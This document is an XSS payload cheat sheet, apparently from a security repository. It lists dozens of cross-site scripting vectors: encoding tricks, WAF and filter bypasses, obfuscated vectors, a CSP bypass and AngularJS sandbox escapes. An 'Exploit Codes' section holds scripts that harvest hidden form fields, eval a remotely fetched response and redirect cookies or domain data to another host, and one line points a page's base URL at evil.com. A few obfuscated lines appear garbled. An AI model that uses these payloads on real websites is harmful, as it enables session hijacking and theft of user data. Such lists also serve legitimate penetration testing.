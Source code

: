 > Blind XSS

```https://xsshunter.com/```

---
> Encoding

```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```

```%253Cscript%253Ealert(1)%253C%252Fscript%253E```

```%uff1cscript%uff1ealert(1);%uff1c/script%uff1e```

---
> XML Based XSS

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>```

---
> Where :// is required after protocol

```javascript://%250aalert(1) ```

---
> XSS in email ID

```"\"><s>test"@gmail.com```

---
> alert, prompt, confirm is not allowed

```this[Object["keys"](this)[6]](1)```

```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<svg/onload=t=/aler/.source+/t/.source;window.onerror=window[t];throw+1;//```

```[][`filter`][`constructor`](`ale`.concat(`rt\x28`.concat`0\x29`))();//```

```[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164\50\61\51')() ```

```([_,_____,_,_,__,___]=(__=[])+{___:__},[______,_,________,____,,_________,_______,__,,,__________]=[!!_____]+!_____+_____._____)[___+=_____+__________+__+______+_+________+___+______+_____+_][___](_________+_______+____+_+______+'(-~_____)')(__)```

```([,?,,,,??]=[]+{},[???,????,?????,??????,,???????,????????,?????????,,,??????????]=[!!?]+!?+?.?)[??+=?+??????????+?????????+???+????+?????+??+???+?+????][??](???????+????????+??????+????+???+'`1`')```

---
> Simple bypasses

```<body onpageshow=alert(1)>```

```<k onsubmit=alert(1)>```

```<k oninput=alert(1)>```

```<style onload=alert(1)>```

```<html ontouchstart=alert(1)>MobileXSS```

```<marquee behavior="alternate" onstart=alert(1)>XSS</marquee>```

```<script/x>alert(1)</script/x>```

```<details ontoggle=alert()>```

```<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>```

```<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>```

```<a/href=//0>```

```<script src=//14.rs>```

```<base href=//evil.com>```

```" onfocus=alert(1) autofocus```

---
> Obfuscated vectors

```<imG/sRc=l oNerrOr=(prompt)() x>```

```<d3"<"/onclick="1>[confirm``]"<">XSS```

```<svg/x=">"/onload=confirm()//```

```<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>```

```<svg </onload ="1> (_=prompt,_(1)) "">```

```<w="/x="y>"/ondblclick=`<`[confir\u006d``]>XXS```

```<A/iD=x hREf=jav&#x09;ascript:prom&#x09;pt(doc&#x09;ument.coo&#x09;kie); id=x>XSS```

---
> Exploit Codes

```Hidden Field data ~```

```<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>```

```Response on server ~```

```<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//127.0.0.1:8080");a.send();</script>```

```Cookie stealing with JS protocol ~```

```javascript:void(a='//127.0.0.1');void(b=document.domain);void(c=a.concat(b));void(window.location.assign(c));```

---
> Javascript XSS

```data:,alert(1)```

```\'-alert(1)//```

```'}alert(1);{'```

```'-alert()-'```

```'}alert(1)%0A{'```

```\'}alert(1);{//```

---
> CSP Bypassed

```<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1></script> <embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1)}//' allowscriptaccess=always>```

---
> Angular JS

```{{constructor.constructor('alert(1)')()}} ```

```<x ng-app>{{constructor.constructor('alert(1)')()}}```

---
> When Space and Slash doesnt work

```<svgonload=alert(1)>```

---
> Misc

```<script ~~~>confirm(1)</script ~~~>```

```window+=valueOf=alert(1)```

```[cookie].some(alert)```

```"accesskey=X onclick=alert(1)+```

```-alert(1)//\       (quoteless xss inside js context when param is reflecting 2 times in same line)```

```<svg onload=setInterval`alert\x28document.domain\x29`>```

```(alert)(1)```

```a=alert,a(1)	```

```[1].find(alert)```

```top["al"+"ert"](1)```

```top[/al/.source+/ert/.source](1)```

```al\u0065rt(1)```

```top['al\145rt'](1)```

```top[8680439..toString(30)](1)```

```<svg onload=alert&lpar;1&rpar;>```

```<svg onload=alert&#x28;1&#x29>```

```<svg onload=alert&#40;1&#41>```

```<svg onload=setInterval`alert\x28document.domain\x29`>```

```"><input type="submit" formaction="javascript&colon;this&lsqb;'a'&plus;'lert'&rsqb;`1`">```

```<body onfocus=alert(1)>```

```<object data=javascript:alert(1)>```

```<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">```

```<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>```

```<IFRAME SRC="javascript:alert('XSS');"></IFRAME>```

```%253cscript%253ealert(document.cookie)%253c/script%253e```

```<audio/onloadstart=alert(1) src>```

```%u0025%u0075%u0066%u0066%u0031%u0063%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065%u0061%u006c%u0065%u0072%u0074%u0028%u0018%u0058%u0053%u0053%u0019%u0029%u003b%u0025%u0075%u0066%u0066%u0031%u0063%u002f%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065```

```%uff1cscript%uff1ealert(1);%uff1c/script%uff1e```

```<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>                            akamai ghost wafbypass```

---
> Reference

```https://research.digitalinterruption.com/2018/12/18/a-deeper-look-into-xss-payloads/```
```https://portswigger.net/web-security/cross-site-scripting/cheat-sheet```
